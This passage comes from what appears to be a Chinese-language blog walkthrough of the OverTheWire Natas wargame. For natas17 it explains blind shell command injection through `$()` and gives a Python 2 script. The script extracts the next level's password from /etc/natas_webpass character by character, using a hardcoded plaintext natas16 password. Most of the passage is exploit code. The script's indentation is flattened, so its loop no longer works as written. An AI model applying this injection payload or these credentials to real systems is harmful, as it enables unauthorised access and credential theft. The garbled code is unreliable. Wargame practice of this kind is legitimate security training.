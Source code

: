         if(doAssert([idx, '<', alphalist[middle]])):
            end = middle
        else:
            start = middle
    print ''.join(result)
{% endhighlight %}
    
    
*   **natas17**  
    还是盲注的思想，由于把很多控制字符都过滤了。具体地，用`cut -c1`来截取某一列，由于只有一行，所以可以得到某一个字符；然后二分查找。bash比较字符串用，为了防止解释为重定向，要用`[ $1 \< $2 ]`或者`[ $1 '<' $2 ]`，而引号都被过滤了，所以只能用`\<`了。 
    另外bash比较是按ascii码来比较的。
    
    代码如下
    
{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2
import base64

def makePayload(statement):
    return "$(c=$(cut -c%d /etc/natas_webpass/natas17)\nif [ $c \\%s %s ]\nthen echo telecommunications\nelse echo zzz\nfi)" % (statement[0], statement[1], statement[2])

def checkResponse(response):
    return response.find("telecommunications") != -1

def doAssert(statement):
    url = 'http://natas16.natas.labs.overthewire.org'
    values = {'needle':makePayload(statement)}

    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)

    username = "natas16"
    password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"
    base64string = base64.encodestring('%s:%s' % (username, password)).replace('\n', '')
    req.add_header('Authorization',"Basic %s" % base64string)
    req.add_header('Content-Type','application/x-www-form-urlencoded')

    response = urllib2.urlopen(req)
    content = response.read()
    return checkResponse(content)

if __name__ == "__main__":
    alphalist = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxy"
    result = []
    for idx in range(1,33):
    start = 0
    end = len(alphalist) #[start, end)
    while (start < end):
    if (end - start == 1):
    result.append(alphalist[start])
    print alphalist[start]
    break
    else:
    middle = (start + end)/2
    if(doAssert([idx, '<', alphalist[middle]])):
        end = middle
    else:
        start = middle
    print ''.join(result)
    {% endhighlight %}
        